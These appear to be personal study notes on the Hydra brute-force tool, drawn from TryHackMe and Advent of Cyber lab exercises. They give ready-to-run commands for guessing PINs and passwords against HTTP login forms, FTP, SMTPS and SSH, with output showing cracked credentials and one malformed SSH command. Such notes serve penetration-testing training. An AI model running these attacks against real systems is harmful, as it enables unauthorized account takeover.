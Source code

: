 
https://www.kali.org/tools/hydra/
https://github.com/vanhauser-thc/thc-hydra

---
(From advent of cyber 2023, day 3)

Before we start, we need to view the page’s HTML code. We can do that by right-clicking on the page and selecting “View Page Source”. You will notice that:

1. The method is `post`
2. The URL is `http://10.10.145.83:8000/login.php`
3. The PIN code value is sent with the name `pin`

![The HTML code related to the PIN code form.](https://tryhackme-images.s3.amazonaws.com/user-uploads/5f04259cf9bf5b57aed2c476/room-content/c55803e3eccf061b8beeae6268b9dae1.png)  

In other words, the main login page http://10.10.145.83:8000/pin.php receives the input from the user and sends it to `/login.php` using the name `pin`.

These three pieces of information, `post`, `/login.php`, and `pin`, are necessary to set the arguments for Hydra.

We will use `hydra` to test every possible password that can be put into the system. The command to brute force the above form is:

```sh
hydra -l '' -P 3digits.txt -f -v 10.10.145.83 http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000
```

The command above will try one password after another in the `3digits.txt` file. It specifies the following:

- `-l ''` indicates that the login name is blank as the security lock only requires a password
- `-P 3digits.txt` specifies the password file to use
- `-f` stops Hydra after finding a working password
- `-v` provides verbose output and is helpful for catching errors
- `10.10.145.83` is the IP address of the target
- `http-post-form` specifies the HTTP method to use
- `"/login.php:pin=^PASS^:Access denied"` has three parts separated by `:`
    - `/login.php` is the page where the PIN code is submitted
    - `pin=^PASS^` will replace `^PASS^` with values from the password list
    - `Access denied` indicates that invalid passwords will lead to a page that contains the text “Access denied”
- `-s 8000` indicates the port number on the target

https:
```sh
┌──(kali㉿kali)-[~]
└─$ hydra -l '' -P 3digits.txt -f -v 10.10.145.83 http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-12-03 18:33:21
[DATA] max 16 tasks per 1 server, overall 16 tasks, 4096 login tries (l:1/p:4096), ~256 tries per task
[DATA] attacking http-post-form://10.10.145.83:8000/login.php:pin=^PASS^:Access denied
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[VERBOSE] Page redirected to http[s]://10.10.145.83:8000/error.php
[VERBOSE] Page redirected to http[s]://10.10.145.83:8000/error.php
...
[VERBOSE] Page redirected to http[s]://10.10.145.83:8000/error.php
[VERBOSE] Page redirected to http[s]://10.10.145.83:8000/control.php
[VERBOSE] Page redirected to http[s]://10.10.145.83:8000/error.php
[VERBOSE] Page redirected to http[s]://10.10.145.83:8000/error.php
[8000][http-post-form] host: 10.10.145.83   password: 6F5
[STATUS] attack finished for 10.10.145.83 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-12-03 18:35:47

```

ftp:
```sh
hydra -l user -P passlist.txt ftp://10.10.x.x
```

funny output since anonymous ftp is active, all passwords are valid :D
```sh
┌──(kali㉿kali)-[~]
└─$ hydra -l ftp -P /usr/share/wordlists/rockyou.txt ftp://10.10.52.174
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-12-04 01:27:00
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ftp://10.10.52.174:21/
[21][ftp] host: 10.10.52.174   login: ftp   password: 123456
[21][ftp] host: 10.10.52.174   login: ftp   password: 12345
...
[21][ftp] host: 10.10.52.174   login: ftp   password: lovely
[21][ftp] host: 10.10.52.174   login: ftp   password: jessica
1 of 1 target successfully completed, 16 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-12-04 01:27:02
```
-l ftp we are specifying a single username, use-L for a username wordlist

-P Path specifying the full path of wordlist, you can specify a single password by using -p.



ftp://10.10.x.x the protocol and the IP address or the fully qualified domain name (FDQN) of the target.

SMTP:
```sh
hydra -l pittman@clinic.thmredteam.com -P clinic-pass.lst smtps://10.10.52.174:465 -v
```

```sh
┌──(kali㉿kali)-[~]
└─$ hydra -l pittman@clinic.thmredteam.com -P clinic-pass.lst smtps://10.10.52.174:465 -v
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-12-04 01:48:17
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 16 tasks per 1 server, overall 16 tasks, 42000 login tries (l:1/p:42000), ~2625 tries per task
[DATA] attacking smtps://10.10.52.174:465/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[VERBOSE] using SMTP LOGIN AUTH mechanism
...
[VERBOSE] using SMTP LOGIN AUTH mechanism
[VERBOSE] using SMTP LOGIN AUTH mechanism
[465][smtp] host: 10.10.52.174   login: pittman@clinic.thmredteam.com   password: !multidisciplinary00
[STATUS] attack finished for 10.10.52.174 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-12-04 01:48:25
```

SSH:
```sh
hydra -L users.lst -ssh://P /path/to/wordlist.txt ssh://10.10.x.x -v

hydra -V -t 50 -l ftpuser -P /usr/share/wordlists/rockyou.txt ftp://10.10.183.107
```

HTTP:
Help  for the module: `hydra http-get-form -U`

Syntax: `<url>:<form parameters>[:<optional>[:<optional>]:<condition string>`

hydra -V -t 50 -l admin -P /usr/share/wordlists/fasttrack.txt http-get admin.ironcorp.me -s 11025 

```sh
hydra -l phillips -P clinic.lst -f -v 10.10.56.136 http-get-form "/login-get/index.php:username=^USER^&password=^PASS^:Login failed"
```

First is the page on the server to GET or POST to (URL), e.g. "/login".

Second is the POST/GET variables (taken from either the browser, proxy, etc.)
 without the initial '?' character and the usernames and passwords being
 replaced with "^USER^" ("^USER64^" for base64 encodings) and "^PASS^"
 ("^PASS64^" for base64 encodings).

Third are optional parameters (see below)

Last is the string that it checks for an *invalid* login (by default).
 Invalid condition login check can be preceded by "F=", successful condition
 login check must be preceded by "S=".
 This is where most people get it wrong! You have to check the webapp what a
 failed string looks like and put it in this parameter! Add the -d switch to see
 the sent/received data!
 Note that using invalid login condition checks can result in false positives!

The following parameters are optional and are put between the form parameters
  and the condition string; seperate them too with colons:
 2=                  302 page forward return codes identify a successful attempt
 (c|C)=/page/uri     to define a different page to gather initial cookies from
 (g|G)=              skip pre-requests - only use this when no pre-cookies are required
 (h|H)=My-Hdr\: foo   to send a user defined HTTP header with each request
                 ^USER[64]^ and ^PASS[64]^ can also be put into these headers!
                 Note: 'h' will add the user-defined header at the end
                 regardless it's already being sent by Hydra or not.
                 'H' will replace the value of that header if it exists, by the
                 one supplied by the user, or add the header at the end

Examples:
```sh
 /login.php:user=^USER^&pass=^PASS^:incorrect
 /login.php:user=^USER64^&pass=^PASS64^&colon=colon\:escape:S=result=success
 /login.php:user=^USER^&pass=^PASS^&mid=123:authlog=.*failed
 /:user=^USER&pass=^PASS^:H=Authorization\: Basic dT1w:H=Cookie\: sessid=aaaa:h=X-User\: ^USER^:H=User-Agent\: wget
 /exchweb/bin/auth/:F=failedowaauth.dll:destination=http%3A%2F%2F<target>%2Fexchange&flags=0&username=<domain>%5C^USER^&password=^PASS^&SubmitCreds=x&trusted=0:C=/exchweb":reason=
```

tibs example, the http example with  :// syntax
```sh
hydra -L usernames.txt -P passwords4.txt -f -v http-post-form://10.10.206.140/login.php:"username=^USER^&password=^PASS^":"Please enter the correct credentials"
```